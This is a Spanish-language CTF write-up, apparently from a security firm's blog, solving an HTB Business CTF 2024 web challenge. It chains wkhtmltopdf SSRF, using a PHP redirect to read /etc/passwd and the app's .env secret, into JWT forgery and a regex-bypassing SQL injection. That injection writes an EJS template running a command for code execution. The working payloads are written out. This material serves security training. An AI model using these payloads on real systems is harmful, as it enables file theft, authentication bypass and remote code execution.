






# Reto, Entrenamiento, Bandera: Robo de Planos
En Atlansec, estamos comprometidos con **los CTFs como una herramienta clave de aprendizaje** bajo la metodología de *aprender haciendo*. Creemos que **enfrentar retos prácticos es la mejor manera de desarrollar habilidades técnicas** y fomentar la creatividad. Con esta sección queremos difundir el valor de los CTFs, compartir *writeups* de Retos de cierta complejidad técnica y acercar a la comunidad a un enfoque práctico y técnico del aprendizaje.

<!-- more -->

### ¿Qué es un CTF?

Las competiciones de capturar la bandera (CTF) son Retos de ciberseguridad donde los participantes se enfrentan a una serie de problemas técnicos para encontrar "banderas", que son marcadores ocultos que demuestran que se ha completado con éxito una tarea. Los CTFs simulan situaciones de la vida real en áreas como la criptografía, ingeniería inversa, seguridad web, análisis forense y explotación de binarios, ayudando a los participantes a adquirir habilidades esenciales en ciberseguridad.

Los CTFs no solo son una competición; son la puerta de entrada al aprendizaje mediante la resolución de problemas. Enseñan a los participantes a pensar de forma crítica, a depurar sistemas complejos, y a adaptarse bajo presión. Cada Reto es una historia, un rompecabeza y una lección todo en uno.

En esta serie, exploraremos Retos CTF notables, nos sumergiremos en sus soluciones técnicas y destacaremos las habilidades que desarrollan. ¡Bienvenido a Reto, Entrenamiento, Bandera!

## Conceptos claves

- **SSRF (Server-Side Request Forgery):** Es una técnica que permite al atacante a forzar a un servidor a realizar peticiones HTTP en su nombre. Dependiendo del contexto, puede ser bastante crítico ya que puede permitir a un atacante acceder a recursos dentro de la red interna del objetivo.

- **JSON Web Token (JWT):** Es un estándar abierto para autenticar y transferir información de forma segura utilizando un token.

- **Inyección SQL:** Ataque que permite inyectar código SQL malicioso en una consulta para manipular la consulta de la base de datos.

- **wkhtmltopdf:** Librería para convertir contenido web (HTML) en PDF.

## El Reto

En esta ocasión os traemos un reto de HTB Business CTF 2024. El reto es de la categoría web y aunque está catalogado como fácil en la plataforma de HackTheBox, es uno de los retos web más complejos de la plataforma debido al número de pasos que componen la solución.

En este reto se nos da el código fuente de una aplicación NoseJS y acceso a un servicio web que ejecuta la aplicación.

### Entendiendo la Lógica de la Aplicación

El reto comienza con el acceso a la aplicación de la comisión de urbanismo. Al navegar, nos damos cuenta que al pulsar sobre cualquiera de los enlaces se genera una petición POST a la ruta /download. Revisemos su implementación en el archivo de rutas:

```Javascript
router.post("/download", authMiddleware("guest"), (req, res, next) => {
    convertPdf(req, res, next);
});
```

Aquí podemos ver que la función _convertPdf_ es la responsable de manejar la lógica de esta ruta. Vamos a examinar su código:

```Javascript
async function convertPdf(req, res, next) {
    try {
        const { url } = req.body;

        if (!isUrl(url)) {
            return next(generateError(400, "Invalid URL"));
        }

        const pdfPath = await generatePdf(url);
        res.sendFile(pdfPath, { root: "." });
    } catch (error) {
        return next(generateError(500, error.message));
    }
}
```

Después de leerlo, podemos ver que la función se asegura que el parámetro que recibe es una URL válida antes de pasarla a la función _generatePdf_. Veamos esto último:

```Javascript
async function generatePdf(urls) {
    const pdfFilename = generateRandomFilename();
    const pdfPath = `uploads/${pdfFilename}`;

    try {
        await generatePdfFromUrl(urls, pdfPath);
        return pdfPath;
    } catch (error) {
        throw new Error(`Error generating PDF: ${error.stack}`);
    }
}

async function generatePdfFromUrl(url, pdfPath) {
    return new Promise((resolve, reject) => {
        wkhtmltopdf(url, { output: pdfPath }, (err) => {
            if (err) {
                reject(err);
            } else {
                resolve();
            }
        });
    });
}
```

Observamos que la función _generatePdfFromUrl_ usa _wkhtmltopdf_ para convertir el contenido de la URL en un archivo PDF. Este flujo abre la puerta a una **vulnerabilidad SSRF** en la librería.

### SSRF para la lectura de archivos en wkhtmltopdf

Utilizando un servidor controlado por el atacante, podemos servir archivos en un servidor web para redirigir al visitante a ubicaciones locales en el sistema de archivos, en este caso convirtiendo el SSRF en una forma de leer archivos internos como /etc/passwd. Para hacer esto, creamos un archivo PHP con el siguiente contenido:

```php
<?php header('location:file:///etc/passwd'); ?>
```

Al pasar la URL de nuestro servidor como parámetro a la ruta /download, el PDF generado contendrá el contenido del archivo /etc/passwd del servidor que realiza la petición.

<figure markdown="span">
    
  <figcaption>Leyendo el /etc/passwd con el generador de PDF</figcaption>
</figure>

A continuación, modificamos el archivo PHP para exfiltar el archivo .env de la aplicación:

```php
<?php header('location:file:///app/.env'); ?>
```

<figure markdown="span">
    
      <figcaption>Leyendo el archivo .env con el generador de PDF</figcaption>
</figure>

### Falsificación del JWT

Con la clave extraída del archivo .env, podemos firmar tokens JWT válidos. Usamos una herramienta como [JWT.io](https://jwt.io/) para generar el token con el rol de administrador:

```json
{
  "role": "admin"
}
```

<figure markdown="span">
    
      <figcaption>Editar token JWT en JWT.io</figcaption>
</figure>

Usando el token que hemos generado, haremos una petición al endpoint interno del panel de administración con la siguiente estructura:

```none
http://127.0.0.1:1337/admin?token=<JWT_admin>
```

En el PDF generado podemos ver el contenido del panel de administración. Aunque esto genera una captura de pantalla del panel de administración, sólo nos lleva la mitad del camino de nuestro objetivo final.

<figure markdown="span">
  
    <figcaption>PDF con el contenido del panel de administración</figcaption>
</figure>

### Inyección SQL a la subida del archivo

Analizando el resto del código de la aplicación, descubrimos que el endpoint GraphQL es vulnerable a Inyección SQL en la consulta _getDataByName_. Sin embargo, se utiliza una expresión regular robusta para filtrar las entradas maliciosas:

```Javascript
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/\?]/;
    return pattern.test(query);
}
```

Un análisis más detallado muestra que la expresión no es multilínea, lo que nos permite realizar un bypass con un salto de línea (`n`).

- Sin salto de línea.

<figure markdown="span">
    
      <figcaption>La expresión regular coincide con nuestro payload</figcaption>
</figure>

- Con salto de línea.

<figure markdown="span">
    
      <figcaption>La expresión regular no coincide con nuestro payload</figcaption>
</figure>

Una vez descubierto esto, podemos construir un payload para una inyección SQL que escriba un archivo EJS malicioso en la ruta de error 404, ya que la aplicación no tiene una ruta para manejar este tipo de error.

El payload que construimos debería ser similar al siguiente, donde incluimos la plantilla EJS que leer la bandera ejecutando el binario objetivo.

```SQL
' UNION SELECT 1, '<p><%= process.mainModule.require("child_process").execSync("/readflag") %></p>', 2, 3 INTO OUTFILE '/app/views/errors/404.ejs'--
```

Con el archivo malicioso en su lugar, accedemos a la ruta inexistente lanzando un error 404 y ejecutando el comando /readflag. Esto nos da acceso al contenido de la bandera.

<figure markdown="span">
    
  <figcaption>Lectura de la bandera</figcaption>
</figure>

---